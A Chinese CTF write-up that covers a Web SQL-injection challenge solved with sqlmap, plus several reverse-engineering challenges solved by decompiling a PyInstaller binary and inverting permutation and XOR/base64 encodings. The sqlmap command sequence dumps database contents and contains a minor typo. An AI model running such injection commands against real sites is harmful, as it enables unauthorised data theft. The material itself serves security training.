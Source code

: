 ## Web

### Word-For-You

无``WAF``的``SQL``注入:填完留言表后点查询留言，发现``url``的形式是: ``comments.php?name=admin``, 尝试用``sqlmap``直接进行注入：

```sql
sqlmap -u 'url' --dbs #列出数据库名
sqlmap -u 'url' -D dbname --tables #列出表名
sqlmap -u 'url' -D dbname -T tablename --columns #列出表名
sqlmap =u 'url' -D dbname -T tablename -C 'id,name' --dump #列出字段的数据
```

## Reverse
### Pyre
exeinfo查看文件，64位可执执行程序。用IDA打开，在字符串窗口发下如下内容：
![](./wp.assets/2022-12-15-15-24-41.png)
包含许多python的函数，因此这个可执行文件是用python来实现的。逆向的目标是:
$exe \rightarrow pyc \rightarrow py$
- exe可执行文件到pyc文件的转化：一般是通过PyInstaller制作的exe文件的，可以用``pyinstxtractor.py``提取出exe中的资源文件。将脚本文件和exe文件放到同一个目录下，执行如下的命令：
    ```bash
    python pyinstxtractor.py pyre.exe
    ```
则会在当前目录下生成提取后的资源文件。
- pyc文件到py文件的转化：从提取的资源文件中找到与可执行文件同名的pyc文件以及一个struct.pyc文件。用struct.pyc文件补全pyre.pyc文件的头
![](./wp.assets/image.png.png)
补全后的pyre.pyc文件（用struct.pyc的前11个字节覆盖pyre.pyc的前11个字节）
![](./wp.assets/2022-12-15-15-20-31.png)
用uncompyle工具将pyc文件转位py文件
    ```shell
     uncompyle6 pyre.pyc > pyre.py
    ```
得到如下的python源代码文件
```python
# uncompyle6 version 3.8.0
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.10.6 (tags/v3.10.6:9c7b4bd, Aug  1 2022, 21:53:49) [MSC v.1932 64 bit (AMD64)]
# Embedded file name: pyre.py
# Compiled at: 1995-09-28 00:18:56
# Size of source mod 2**32: 272 bytes
flag = ''
encode = 'REla{PSF!!fg}!Y_SN_1_0U'
table = [7, 8, 1, 2, 4, 5, 13, 16, 20, 21, 0, 3, 22, 19, 6, 12, 11, 18, 9, 10, 15, 14, 17]

def enc(input):
    tmp = ''
    for i in range(len(input)):
        tmp += input[table[i]]

    return tmp


if __name__ == '__main__':
    print('Please input your flag:')
    flag = input()
    if len(flag) != 23:
        print('Length Wrong!!')
    else:
        final = enc(flag)
        if final == encode:
            print('Wow,you get the right flag!!')
        else:
            print('Sorry,Your input is Wrong')
# okay decompiling pyre.pyc
```
根据加密函数写解密的脚本：
```python
encode = 'REla{PSF!!fg}!Y_SN_1_0U'
table = [7, 8, 1, 2, 4, 5, 13, 16, 20, 21, 0, 3, 22, 19, 6, 12, 11, 18, 9, 10, 15, 14, 17]
flag=[0]*len(encode)
for i in range(len(encode)):
	flag[table[i]] = encode[i]
print("".join(flag))
```
### EasyRe
给了``easyre.exe``和``enc.dll``两个文件，反汇编二进制文件，分析程序的逻辑：需要输入一个flag,然后调用``enc.dll``中的加密函数对flag进行加密，结果需要等于一个已知的字符串final。那么就用IDA去看dll文件，encode代码如下：
```c
__int64 __fastcall encode_0(const char *a1, __int64 a2)
{
  int v3; // [rsp+24h] [rbp+4h]
  int v4; // [rsp+64h] [rbp+44h]
  int v5; // [rsp+84h] [rbp+64h]

  sub_1800112CB(&unk_180021001);
  v3 = j_strlen(a1);
  v4 = 0;
  v5 = 0;
  while ( v4 < v3 )
  {
    *(_BYTE *)(a2 + v5) = aAbcdefghijklmn[a1[v4] >> 2];
    *(_BYTE *)(a2 + v5 + 1) = aAbcdefghijklmn[((a1[v4 + 1] & 0xF0) >> 4) | (16 * (a1[v4] & 3))];
    *(_BYTE *)(a2 + v5 + 2) = aAbcdefghijklmn[((a1[v4 + 2] & 0xC0) >> 6) | (4 * (a1[v4 + 1] & 0xF))];
    *(_BYTE *)(a2 + v5 + 3) = aAbcdefghijklmn[a1[v4 + 2] & 0x3F];
    v4 += 3;
    v5 += 4;
  }
  if ( v3 % 3 == 1 )
  {
    *(_BYTE *)(a2 + v5 - 1) = 61;
    *(_BYTE *)(a2 + v5 - 2) = 61;
  }
  else if ( v3 % 3 == 2 )
  {
    *(_BYTE *)(a2 + v5 - 1) = 61;
  }
  return sub_18001132A(a2);
}
```
就是一个BASE64加密代码，返回的``sub_18001132A``的代码如下：
```c
const char *__fastcall sub_180011660(const char *a1)
{
  int i; // [rsp+24h] [rbp+4h]

  sub_1800112CB(&unk_180021001);
  for ( i = 0; i < j_strlen(a1); ++i )
    a1[i] ^= Str[i % j_strlen(Str)]; //str="Reverse"
  return a1;
}
```
解密思路就很清晰了：先将final串和Str按字符进行异或，然后将得到的结果base64解密即可。(final需要仔细看一下下标，final首先是将每个值置为0了的)
```python
import base64
final=[8,8,0xE,0xD,0x28,0x40,0x11,0x11,0x3C,0x2E,0x2B,0x1E ,0x3D ,0xF ,0,3 ,0x3B ,0x3D ,0x3C ,0x15 ,0x28,5,0x50,0x46,0x3F,0x2A,0x39,9,0x31,0x56,0x24,
0x1C,0x3F,0x24,0x50,0x3C ,0x2C ,0x25 ,0x23 ,0x4B]
Str = "Reverse"
tmp=[0] * len(final)
for i in range(len(final)):
	tmp[i] = final[i] ^ ord(Str[i % len(Str)])
print(tmp)
enc_flag = bytes(tmp)
print(base64.b64decode(enc_flag.decode()))
```
### 艾克体悟题
安卓逆向题目，首先让程序跑起来。

## Pwn



## Crypto



## Misc



## BlockChain

